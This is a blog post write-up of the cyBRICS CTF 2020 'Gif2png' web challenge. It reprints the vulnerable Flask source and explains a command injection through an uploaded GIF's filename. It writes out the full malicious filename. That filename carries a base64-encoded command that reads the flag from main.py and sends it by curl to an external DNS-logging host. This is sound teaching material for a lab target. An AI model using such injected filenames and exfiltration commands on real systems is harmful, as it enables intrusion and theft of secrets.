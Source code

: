 ```yaml
---
layout: post
title: "cyBRICS CTF 2020 - Gif2png"
description: "Resolution of the cyBRICS CTF challenge named Gif2png"
thumb_image: "ctf/cybrics/2020/gif2png/gif2png-00.jpg"
tags: [ctf,web,cybricsctf]
---
```


{% include image.html path="ctf/cybrics/2020/gif2png/gif2png-00.jpg" path-detail="ctf/cybrics/2020/gif2png/gif2png-00.jpg" alt="CTF Challenge Banner" %}

Gif2Png is an easy web challenge from `cyBRICS CTF 2020`, an interesting web challenge that teaches you `command injection` through image's filename.

The challenge had the following description/details: 

{% include image.html path="ctf/cybrics/2020/gif2png/gif2png-01.png" path-detail="ctf/cybrics/2020/gif2png/gif2png-01.png" alt="CTF Challenge Description" %}

A copy of the original web application's source code is available on: [gif2png.tar.gz](https://mega.nz/file/oMJnVAbR#qkUfgCsgjhkueLh9dOeKc_7Pm1BXzwacspLZxjvLB5Q)

The challenge web page:

{% include image.html path="ctf/cybrics/2020/gif2png/gif2png-02.png" path-detail="ctf/cybrics/2020/gif2png/gif2png-02.png" alt="CTF Challenge Web Page" %}

It seems that the web application slices the gif into frames and display them on the screen:

{% include image.html path="ctf/cybrics/2020/gif2png/gif2png-03.png" path-detail="ctf/cybrics/2020/gif2png/gif2png-03.png" alt="CTF Challenge Web Page" %}

So now let's check the source code of the web application to understand how it is done.

This is the source code of the main file, named `main.py`:

{% highlight python %}
import logging
import re
import subprocess
import uuid
from pathlib import Path

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory
from flask_bootstrap import Bootstrap
import os
from werkzeug.utils import secure_filename
import filetype


ALLOWED_EXTENSIONS = {'gif'}

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['SECRET_KEY'] = '********************************'
app.config['MAX_CONTENT_LENGTH'] = 500 * 1024  # 500Kb
ffLaG = "cybrics{********************************}"
Bootstrap(app)
logging.getLogger().setLevel(logging.DEBUG)

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    logging.debug(request.headers)
    if request.method == 'POST':
        if 'file' not in request.files:
            logging.debug('No file part')
            flash('No file part', 'danger')
            return redirect(request.url)

        file = request.files['file']
        if file.filename == '':
            logging.debug('No selected file')
            flash('No selected file', 'danger')
            return redirect(request.url)

        if not allowed_file(file.filename):
            logging.debug(f'Invalid file extension of file: {file.filename}')
            flash('Invalid file extension', 'danger')
            return redirect(request.url)

        if file.content_type != "image/gif":
            logging.debug(f'Invalid Content type: {file.content_type}')
            flash('Content type is not "image/gif"', 'danger')
            return redirect(request.url)

        if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
            logging.debug(f'Invalid symbols in filename: {file.content_type}')
            flash('Invalid filename', 'danger')
            return redirect(request.url)

        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))

            mime_type = filetype.guess_mime(f'uploads/{file.filename}')
            if mime_type != "image/gif":
                logging.debug(f'Invalid Mime type: {mime_type}')
                flash('Mime type is not "image/gif"', 'danger')
                return redirect(request.url)

            uid = str(uuid.uuid4())
            os.mkdir(f"uploads/{uid}")

            logging.debug(f"Created: {uid}. Command: ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"")

            command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
            command.wait(timeout=15)
            logging.debug(command.stdout)

            flash('Successfully saved', 'success')
            return redirect(url_for('result', uid=uid))

    return render_template("form.html")


@app.route('/result/<uid>/')
def result(uid):
    images = []
    for image in os.listdir(f"uploads/{uid}"):
        mime_type = filetype.guess(str(Path("uploads") / uid / image))
        if image.endswith(".png") and mime_type is not None and mime_type.EXTENSION == "png":
            images.append(image)

    return render_template("result.html", uid=uid, images=images)


@app.route('/uploads/<uid>/<image>')
def image(uid, image):
    logging.debug(request.headers)
    dir = str(Path(app.config['UPLOAD_FOLDER']) / uid)
    return send_from_directory(dir, image)


@app.errorhandler(413)
def request_entity_too_large(error):
    return "File is too large", 413


if __name__ == "__main__":
    app.run(host='localhost', port=5000, debug=True, threaded=True)
{% endhighlight %}

What caught my attention was the line 104:

{% highlight python %}
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
{% endhighlight %}

This can be very insecure because the web application is passing an user input to be executed as system command. (`file.filename`)

There's a small condition that checks for some characters on filename and blocks the upload:

{% highlight python %}
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
  logging.debug(f'Invalid symbols in filename: {file.content_type}')
  flash('Invalid filename', 'danger')
  return redirect(request.url)
{% endhighlight%}

So now we need to exploit this weak point.

The very first thing we need to do is stop the actual ffmpeg command and execute another one, to do this we need to escape the `'` quotes and append another command.

I found a way to bypass the filename verification using double pipelines to execute my system command, the malicious filename will look something like this:

> `MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||'`

{% highlight shell %}
ffmpeg -i 'uploads/MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||' "uploads/{uid}/%03d.png\"
{% endhighlight %}

There's a final problem: how to inject system commands through filename and bypass the filename check? `Encoding the payload with base64, decoding and executing on the fly!`

> `echo d2hvYW1pO2lkO3NsZWVwIDEw|base64 -d|sh`

Unfortunatelly, the challenge server had a firewall blocking reverse shells and requests to the external resources through port 80.
So I came with the idea of exfiltrating the flag (inside the main.py) through DNS using `dnsbin.zhack.ca`:

> `flag=$(cat main.py|grep -wo cybrics{.*|base64|tr -d '=');curl $flag.a0325542a59398d0bda8.d.zhack.ca`

The flag is extracted from the main.py and sent through DNS using DNSBin, all we need to do is encode the above command as base64 and rename the file:

The encoded payload:

> `ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh`

The 2nd part:

> `echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh`

The final filename:

> `nullarmor'||echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh||'.gif`

Now we just renamed a gif file with the malicious filename and uploaded it on the Gif2png web application!

{% include image.html path="ctf/cybrics/2020/gif2png/gif2png-04.png" path-detail="ctf/cybrics/2020/gif2png/gif2png-04.png" alt="CTF Challenge Exploit" %}

Done, after 5 seconds the base64 encoded flag will be sent through DNS!

{% include image.html path="ctf/cybrics/2020/gif2png/gif2png-05.png" path-detail="ctf/cybrics/2020/gif2png/gif2png-05.png" alt="CTF Challenge Exploit" %}

Flag:
> cybrics{imagesaresocoolicandrawonthem}

{% include image.html path="ctf/cybrics/2020/gif2png/gif2png-06.png" path-detail="ctf/cybrics/2020/gif2png/gif2png-06.png" alt="CTF Challenge Flag" %}
